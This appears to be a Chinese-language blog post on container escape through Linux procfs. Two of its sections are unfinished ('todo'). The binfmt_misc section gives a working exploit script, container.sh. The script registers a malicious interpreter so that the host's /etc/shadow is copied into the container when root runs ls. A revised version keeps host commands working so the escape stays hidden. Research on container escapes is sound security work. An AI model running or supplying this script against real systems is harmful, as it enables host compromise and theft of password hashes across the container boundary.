

## 利用procfs相关逃逸方式原理

### 什么是procfs

procfs全称proc filesystem，比较简单的说就是将内核中保存的进程数据，以目录结构的形式进行展示，在系统启动阶段会被挂载到/proc目录，除进程数据外/proc目录也包含了一部分非进程数据如/proc/crypto、/proc/devices等，其中大部分目录都是数据接口，其中/proc/sys目录下包含了动态可配置的内核选项，可以通过修改/proc/sys目录下文件对内核进行动态配置。

对procfs的详细介绍可以参考：https://en.wikipedia.org/wiki/Procfs

利用procfs进行容器逃逸使用到的内核相关特性都在/proc/sys下，可以参考：https://www.kernel.org/doc/html/v5.7/admin-guide/sysctl/ 确定每个文件对应的功能和使用方式

除了procfs外在linux 2.6版本后将大量非进程相关的系统信息移动到一个专门的伪文件系统称为sysfs挂载在/sys目录下，另外一部分逃逸方式方式是通过sysfs完成的，这部分另外一篇文章进行介绍

### 利用/proc/sys/kernel/modprobe

todo

### 利用/proc/sys/kernel/core_pattern

todo

### 利用/proc/sys/fs/binfmt_misc

#### 什么是binfmt_misc

系统中存储着各种类型的程序，内核在执行时并不清楚那种程序需要使用什么解析器，为了能够让内核可以对大部分程序进行解析，提供了binfmt_misc特性，用户可以通过操作binfmt_misc的register文件告知内核某一类程序需要使用哪个解析器去执行

binfmt_misc的使用方式网上很多文章都有说明，可以参考进行测试：https://www.kernel.org/doc/html/latest/admin-guide/binfmt-misc.html

#### 逃逸原理

在容器中向内核注册一个新的文件类型和对应的解析器，指定文件魔术字符或文件后缀和对应的解析器，在解析器代码中写入恶意代码，当这类文件在宿主机上被执行时，内核就会调用攻击者注册的解析器进而完成恶意代码的执行

#### 公开的EXP

脚本参考[kcon Container escape in 2021中给出的POC](https://github.com/knownsec/KCon/blob/master/2021/Container%20escape%20in%202021.pdf)修改

选择宿主机ls文件的offset和magic，除去ELF文件头的位置，任意选择一段offset和magic对应即可


测试代码如下：`container.sh`
```shell
mkdir /tmp/binfmt_misc && mount binfmt_misc -t binfmt_misc /tmp/binfmt_misc
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "#!/bin/bash" > /tmp/handler.sh
echo "" >> /tmp/handler.sh
echo "cat /etc/shadow > $host_path/shadow" >> /tmp/handler.sh
chmod +x /tmp/handler.sh
echo ":exp:M:240:\x70\xff\x01\x00::$host_path/tmp/handler.sh:" > /tmp/binfmt_misc/register
```
容器中执行
```shell
chmod +x container.sh
./container.sh
```

宿主机中执行
```shell
# run by root
ls
```
执行成功后容器根目录会写入宿主机shadow文件，利用效果如下


#### 上述EXP在实际场景中存在的问题

1. 如何知道宿主机中被执行的二进制文件的offset和magic，同一个命令在宿主机和容器中可能并不相同

   在Container escape in 2021中给出了替换#!/bin/sh的方法，这种方法可以确保offset和magic一定是正确的，但因为#!/bin/sh文件的解释器被指定到了容器内的一个文件，宿主机普通用户执行sh文件时没有对容器路径下这个文件的访问权限造成执行失败，出现`bad interpreter: Permission denied`错误
    
   这快目前还没想好怎么搞，一方面是确保设置的offset和magic是正确的，另外一方面是如何让触发的面更大，或者宿主机可以自动触发，有搞定这个问题的师傅可以说下思路学习一下
        
2. 完成binfmt_misc修改之后宿主机上原本的命令执行会出现问题，无法正常使用
   
   增加binfmt_misc之后宿主机正常二进制文件无法执行的原因是新注册的解释器并没有对二进制文件进行执行，只是完成了漏洞利用的逻辑，在centos中（本文仅对contos进行了测试，其他linux发行版没有进行测试），系统通过`/lib64/ld-linux-x86-64.so.2`执行二进制文件，通过file命令也可以验证二进制文件的解释器如下图
   
    
    所以解决这个问题的方式就比较简单了，修改container.sh内容为如下：
    
    ```shell
    mkdir /tmp/binfmt_misc && mount binfmt_misc -t binfmt_misc /tmp/binfmt_misc
    host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
    echo "#!/bin/bash" > /tmp/handler.sh
    echo "" >> /tmp/handler.sh
    echo "cat /etc/shadow > $host_path/shadow" >> /tmp/handler.sh
    # add this
    echo "/lib64/ld-linux-x86-64.so.2 /usr/bin/ls" >> /tmp/handler.sh
    chmod +x /tmp/handler.sh
    echo ":exp:M:240:\x70\xff\x01\x00::$host_path/tmp/handler.sh:" > /tmp/binfmt_misc/register
    ```
    
    命令正常被执行